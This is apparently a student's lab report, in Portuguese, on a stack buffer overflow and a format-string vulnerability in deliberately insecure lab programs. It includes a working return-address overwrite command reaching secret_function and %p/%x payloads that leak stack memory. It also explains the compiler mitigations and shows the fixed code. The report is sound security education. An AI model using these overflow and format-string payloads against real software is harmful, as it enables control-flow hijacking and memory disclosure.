

# Lab 11

## Parte A

Exercicio 1

-fno-stack-protector: desativa o stack canary (proteção da stack contra buffer overflow), permitindo que um overflow em buffer sobrescreva dados de controlo (ex.: endereço de retorno) sem deteção automática.

-z execstack: marca a stack como executável (NX desativado para a stack), o que permite executar shellcode injetado na stack.

-no-pie: gera binário com endereços fixos (sem PIE), tornando previsíveis os endereços de funções como secret_function entre execuções.

-g: inclui símbolos de debug no binário, útil para analisar no gdb (ver variáveis, stack, breakpoints, etc.), sem foco em otimização.

Exercicio 2

1. Endereço de `buffer` na stack: `0x7fffffffdc50`.

2. Endereço do return address guardado na stack (`info frame`): `rip at 0x7fffffffdc98`.
   Valor guardado nesse endereço: `saved rip = 0x4012c7`.

3. Distância entre o início de `buffer` e o return address guardado: `0x48` bytes = `72` bytes.

4. Endereço de `secret_function`: `0x4011b6`.

Exercicio 3

Offset exato usado: `72` bytes.

Endereço de `secret_function` usado: `0x4011b6`.

Representação little-endian do endereço no payload: `b"\xb6\x11\x40"`.

Comando completo executado:

`./vuln "$(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*72 + b"\xb6\x11\x40")')"`

Output observado (prova de exploração):

`[!] ACCESS GRANTED: you reached the secret function!`



Exercicio 4

| Flags de compilação | Comportamento esperado | Exploit ainda funciona? | Resultado observado | Porque razão |
| --- | --- | --- | --- | --- |
| `gcc -o vuln vuln.c -z execstack -no-pie -g` | Stack canary ativo | Não | `*** stack smashing detected ***: terminated` e `Abortado (núcleo despejado)` | O `strcpy` corrompe a stack, mas o canary é verificado antes do `ret` e o programa termina ao detetar a alteração. |
| `gcc -o vuln vuln.c -fno-stack-protector -z execstack -g` | PIE/ASLR ativo | Não com o endereço fixo usado no payload | `Falta de segmentação (núcleo despejado)` | Sem canary, o overflow chega ao return address; no entanto, a `secret_function` já não fica num endereço fixo, e o endereço codificado no payload deixa de ser válido. |
| `gcc -o vuln vuln.c -g` | Mitigações por defeito | Não | `*** stack smashing detected ***: terminated` e `Abortado (núcleo despejado)` | O binário mantém stack protector e PIE/ASLR por defeito, por isso o overflow é detetado e os endereços também deixam de ser previsíveis. |

Conclusão: o exploit só funciona quando as mitigações que bloqueiam a escrita até ao return address e a previsibilidade dos endereços estão desativadas ao mesmo tempo. Com qualquer uma das proteções ativas, o ataque falha.

Exercicio 5

Código corrigido em `vuln.c`:

```c
void process_input(char *input) {
   char buffer[64];
   size_t input_len = strlen(input);

   if (input_len >= sizeof(buffer)) {
      fprintf(stderr, "[!] Input too long: maximum allowed length is %zu bytes.\n", sizeof(buffer) - 1);
      exit(1);
   }

   printf("[*] Buffer is at:         %p\n", (void *)buffer);
   printf("[*] secret_function is at: %p\n", (void *)secret_function);
   memcpy(buffer, input, input_len + 1);
   printf("[*] You entered: %s\n", buffer);
}
```

Compilação com mitigações por defeito ativas:

```bash
gcc -o vuln vuln.c -g
```

`strcpy` foi removido porque não verifica limites; agora o programa calcula o comprimento da entrada, rejeita valores maiores do que `buffer` suporta e só depois copia com `memcpy` o número exato de bytes necessário. Assim, o overflow é impedido antes de atingir o return address, mesmo mantendo as mitigações padrão do compilador/OS ativas.

## Parte B

Exercicio 6

Comando com avisos ativos:

```bash
gcc -o fmtvuln fmtvuln.c -g -Wall -Wformat -Wformat-security
```

Aviso registado:

```text
fmtvuln.c: In function ‘process_input’:
fmtvuln.c:10:5: warning: format not a string literal and no format arguments [-Wformat-security]
   10 |     printf(input);             /* CWE-134: user input used as format string */
      |     ^~~~~~
```

1. O aviso indica que `printf` está a receber uma string controlada pelo utilizador como formato (`printf(input)`), em vez de um formato literal seguro (por exemplo, `printf("%s", input)`). Isto caracteriza uma vulnerabilidade de string de formato (CWE-134), que pode permitir leitura/escrita indevida de memória com especificadores como `%x`, `%p` ou `%n`.

Compilação sem flags explícitas de aviso e execução com entrada benigna:

```bash
gcc -o fmtvuln fmtvuln.c -g
./fmtvuln "Hello, world!"
```

Resultado observado:

```text
[*] Address of secret on stack: 0x7ffe42fa7870
[*] Processing input...
Hello, world!
[*] Normal programme termination.
```

2. Com uma entrada normal, o programa aparenta funcionar como esperado. Ainda assim, o problema de segurança permanece: o comportamento benigno não prova ausência de vulnerabilidade. Os avisos do compilador são úteis porque sinalizam padrões perigosos cedo (análise estática), antes de executar o programa. Contudo, não são suficientes por si só: podem não cobrir todos os fluxos, dependem das flags/configuração do compilador e não substituem revisão de código, testes e análise dinâmica.

Nota: neste ambiente, o mesmo aviso também apareceu em `gcc -o fmtvuln fmtvuln.c -g`, o que sugere que a toolchain/configuração local já ativa verificação relacionada com `-Wformat-security` por defeito.

Exercicio 7

Comando executado com `%p`:

```bash
./fmtvuln "%p %p %p %p %p %p %p %p %p %p"
```

Output observado:

```text
[*] Address of secret on stack: 0x7ffceea36b40
[*] Processing input...
0x5e9396dfc2a0 (nil) 0x78fe57d1c5a4 0x78fe57e03b20 0x410 (nil) 0x7ffceea38192 0xcafebabe 0xf2b16cf1594a7600 0x7ffceea36b70
[*] Normal programme termination.
```

1. Observa-se fuga de informação: em vez de imprimir literalmente a string fornecida, o programa interpreta cada `%p` como pedido para imprimir argumentos inexistentes e acaba por revelar valores internos de memória (incluindo o valor `0xcafebabe` presente na stack). Isto difere da execução benigna do Exercício 6, onde a mensagem era apenas mostrada como texto normal.

2. `printf` é uma função variádica: ela confia totalmente na format string para saber quantos argumentos deve consumir e de que tipo. Como a format string vem do utilizador, os especificadores `%p` fazem `printf` tentar ler argumentos adicionais no contexto de chamada (registos/stack) mesmo sem terem sido passados. Não há metadados em tempo de execução que permitam ao `printf` “detetar” com segurança a ausência desses argumentos; por isso lê valores residuais e imprime-os.

Comando repetido com `%x`:

```bash
./fmtvuln "%x %x %x %x %x %x %x %x %x %x"
```

Output observado:

```text
[*] Address of secret on stack: 0x7fff2c686d60
[*] Processing input...
bda392a0 0 6311c5a4 63203b20 410 0 2c688192 cafebabe f307b600 2c686d90
[*] Normal programme termination.
```

3. Com `%x`, os valores aparecem em hexadecimal sem prefixo `0x` e tipicamente truncados à largura de `unsigned int` (32 bits). Com `%p`, os valores são apresentados como ponteiros (incluindo `(nil)` para zero) e refletem melhor endereços em processos 64 bits. Portanto, para reconhecimento de endereços em 64 bits, `%p` é o especificador mais apropriado.

Exercicio 8

1. Comando executado:

```bash
./fmtvuln "$(python3 -c "print('%p ' * 30, end='')")"
```

Output observado:

```text
[*] Address of secret on stack: 0x7ffee37d44d0
[*] Processing input...
0x59aa55a252a0 (nil) 0x723c0e31c5a4 0x723c0e403b20 0x410 (nil) 0x7ffee37d5155 0xcafebabe 0xcab6e73b087bc800 0x7ffee37d4500 0x59aa51de12a5 0x7ffee37d4628 0x2e37d4628 0x7ffee37d45a0 0x723c0e22a1ca 0x7ffee37d4550 0x7ffee37d4628 0x251de0040 0x59aa51de124d 0x7ffee37d4628 0xff34105aeddc726a 0x2 (nil) 0x59aa51de3da0 0x723c0e577000 0xff34105aecbc726a 0xe4b1cae5259e726a 0x7ffe00000000 (nil) (nil)
[*] Normal programme termination.
```

2. O output revela múltiplos valores internos do processo em vez de imprimir texto literal. Em relação ao Exercício 6 (entrada benigna), aqui há fuga de informação da stack/estado de chamada.
O valor sentinela `0xcafebabe` aparece na **8.ª posição** da sequência `%p`.
O endereço exato de `secret` impresso na primeira linha (`0x7ffee37d44d0`) pode não surgir literalmente entre os primeiros 30 `%p`, mas aparecem vários ponteiros da mesma zona da stack (endereços `0x7ffee37d...`), o que permite inferir layout e proximidade de dados sensíveis.

3. Este exercício demonstra que vulnerabilidades de format string permitem a um atacante recuperar informação sensível sem crash imediato: endereços (stack, código e bibliotecas), valores locais/sentinela e outros dados residuais de memória. A origem principal destes leaks é a stack da chamada (e, conforme ABI/implementação, também valores transitórios de registos), comprometendo aleatorização e facilitando ataques posteriores.

Exercicio 9

1. Linha corrigida em `fmtvuln.c`:

```c
printf("%s", input);
```

Esta linha é segura porque a format string é fixa (`"%s"`) e a entrada do utilizador é tratada apenas como dados. Assim, mesmo que a entrada contenha `%p` ou `%x`, esses especificadores são impressos literalmente e não interpretados por `printf`.

2. Recompilação e verificação com a entrada do Exercício 7:

```bash
gcc -o fmtvuln fmtvuln.c -g
./fmtvuln "%p %p %p %p %p %p %p %p %p %p"
```

Resultado observado:

```text
[*] Address of secret on stack: 0x7ffca8369e80
[*] Processing input...
%p %p %p %p %p %p %p %p %p %p
[*] Normal programme termination.
```

Conclusão: a entrada já não divulga valores da stack.

3. Recompilação com avisos de format string:

```bash
gcc -o fmtvuln fmtvuln.c -g -Wall -Wformat -Wformat-security
```

Resultado: não é produzido nenhum aviso.
